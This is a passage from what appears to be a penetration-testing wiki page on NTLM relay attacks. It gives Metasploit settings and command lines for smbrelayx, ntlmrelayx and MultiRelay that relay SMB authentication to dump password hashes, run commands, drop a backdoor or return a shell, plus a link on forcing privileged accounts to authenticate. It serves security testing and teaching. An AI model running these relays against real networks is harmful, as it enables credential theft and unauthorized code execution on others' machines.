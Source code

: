 ### Metasploit

```bash
setg Proxies socks4:127.0.0.1:1080 # Use this if you need to route the traffic to reach the attacked ip
set SRVHOST <local_ip>
set SRVPORT 445
set SMBHOST <ip_to_auth_to>
run -j
```

### smbrelayx

```bash
python3 smbrelayx.py -t smb://<ip_to_attack> -smb2support --no-http-server --no-wcf-server
# By default it will just dump hashes
# To execute a command use: -c "ipconfig"
# To execute a backdoor use: -e "/path/to/backdoor

# Attack through socks proxy
proxychains python3 ntlmrelayx.py -t smb://<ip_to_attack> -smb2support --no-http-server --no-wcf-server
```

### MultiRelay

If you want to use **MultiRelay**, go to _**/usr/share/responder/tools**_ and execute MultiRelay (`-t <IP target> -u <User>`):

```bash
python MultiRelay.py -t <IP target> -u ALL # If "ALL" then all users are relayed
# By default a shell is returned
python MultiRelay.py -t <IP target> -u ALL -c whoami #-c to execute command
python MultiRelay.py -t <IP target> -u ALL -d #-d to dump hashes

# Use proxychains if you need to route the traffic to reach the attacked ip
```

![](<../../.gitbook/assets/image (209).png>)

### Force NTLM Logins

In Windows you **may be able to force some privileged accounts to authenticate to arbitrary machines**. Read the following page to learn how:

{% content-ref url="../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md)
{% endcontent-ref %}

## Solution
